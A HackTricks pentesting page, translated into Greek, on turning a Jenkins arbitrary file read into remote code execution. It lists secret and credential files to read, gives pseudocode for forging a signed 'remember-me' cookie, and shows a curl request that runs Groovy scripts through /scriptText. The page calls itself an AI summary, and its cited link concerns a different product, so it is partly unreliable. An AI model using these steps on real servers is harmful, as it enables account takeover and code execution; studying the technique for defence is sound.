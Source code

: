 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Σε αυτή την ανάρτηση blog είναι δυνατή η εύρεση ενός εξαιρετικού τρόπου για να μετατραπεί μια ευπάθεια Local File Inclusion στο Jenkins σε RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Αυτή είναι μια περίληψη που δημιουργήθηκε από AI του μέρους της ανάρτησης όπου η δημιουργία ενός αυθαίρετου cookie κακοποιείται για να αποκτήσει RCE εκμεταλλευόμενη μια τοπική ανάγνωση αρχείου μέχρι να έχω χρόνο να δημιουργήσω μια περίληψη μόνος μου:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" πρέπει να είναι ενεργοποιημένο (προεπιλεγμένη ρύθμιση).
* **Access Levels:** Ο επιτιθέμενος χρειάζεται δικαιώματα Overall/Read.
* **Secret Access:** Δυνατότητα ανάγνωσης τόσο δυαδικού όσο και κειμενικού περιεχομένου από βασικά αρχεία.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Πρόσβαση στη διαμόρφωση χρηστών και μυστικά από το `$JENKINS_HOME/users/*.xml` για κάθε χρήστη για να συγκεντρωθούν:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Εξαγωγή κρυπτογραφικών κλειδιών που χρησιμοποιούνται για την υπογραφή του cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Προσθέτει μία ώρα στην τρέχουσα ώρα
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Μετατροπή του master key σε μορφή κλειδιού AES128
decrypted = AES.decrypt(macFile, key)  // Αποκρυπτογράφηση του αρχείου .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Υπολογισμός HMAC χρησιμοποιώντας το token και το MAC key
tokenSignature = bytesToHexString(mac)  // Μετατροπή του MAC σε δεκαεξαδική συμβολοσειρά
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 κωδικοποίηση των δεδομένων cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Κάντε ένα αίτημα στο `/crumbIssuer/api/json` για να αποκτήσετε το `Jenkins-Crumb`.
* Συλλέξτε το `JSESSIONID` από την απάντηση, το οποίο θα χρησιμοποιηθεί σε συνδυασμό με το cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Το Groovy script μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών σε επίπεδο συστήματος ή άλλων λειτουργιών μέσα στο περιβάλλον του Jenkins.

Η παραδείγματος curl εντολή που παρέχεται δείχνει πώς να κάνετε ένα αίτημα στο Jenkins με τις απαραίτητες κεφαλίδες και cookies για να εκτελέσετε αυθαίρετο κώδικα με ασφάλεια.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
